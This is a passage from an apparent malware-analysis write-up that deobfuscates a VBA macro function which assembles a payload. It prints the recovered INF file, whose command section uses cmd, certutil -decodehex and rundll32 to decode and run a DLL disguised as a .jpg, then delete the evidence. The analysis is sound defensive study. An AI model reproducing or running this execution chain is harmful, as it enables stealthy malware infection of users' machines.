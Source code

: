 and here is the implementation of **rFdPB()** which called many many times and it is

![snake](/assets/images/15/1-QZVUpJXJJBzg3x2hQqKjag.png)    

This VBA macro defines a function named **“rFdPB”** that concatenates two arrays, “dkbDR” and “quELr,” and stores the result in “dkbDR.” It uses static variables **“ioQHr”** and **“QDLuE”** to keep track of array indices and their sizes. The function first determines the size of **“dkbDR”** and then resizes it to accommodate the combined size of both arrays. Finally, it loops through each element of **“quELr”** and appends it to **“dkbDR”** The “Next: End Function” at the end seems to be a mistake as it would create a syntax error; it should be removed.

and here is the deobfuscated version of this function if u found it hard to understand it.

```vb
Function Copy_to_1st_array(ByRef payload As Variant, ByRef array_to_copy As Variant):  
  
Static indexAs Long:  
Static payload_lengthAs Long:  
payload_length= UBound(payload) + 1:                        
ReDim Preserve payload(payload_length+ UBound(array_to_copy)):      
For index= LBound(array_to_copy) To UBound(array_to_copy):       
    payload(payload_length + index) = array_to_copy(index):          
Next:  
End Function
```
so in brief this function appends and builds the payload of INF file.

### Executed Command line

I have tried to build the first 5 calls and I got a significant result

```powershell
[VErsiON]  
  
  
 SIgNAtuRe = $Chicago$  
  
  
 aDVANcEDInf = 2.5  
  
  
 [deFAULTInSTALL_sInGLEUSeR]  
  
  
  
 rUnPostSETUPcommAnDS = werd  
  
  
  
 [werd]  
  
  
 %11%\cMd.exe /C morE /E +29 %TEmP%\VN.inf > %TEmP%\cvr.tmp  
 && CERTUtIL -DEcoDEHex %TEmP%\cvr.tmp %TEmP%\xhd.jpg  
 && ruNDLl32 %TEmP%\xhd.jpg,main && del %TEmP%\cvr.tmp  
 && dEL %TEmP%\xhd.jpg && del %TEmP%\VN.inf  
  
  
  
 [Strings]  
```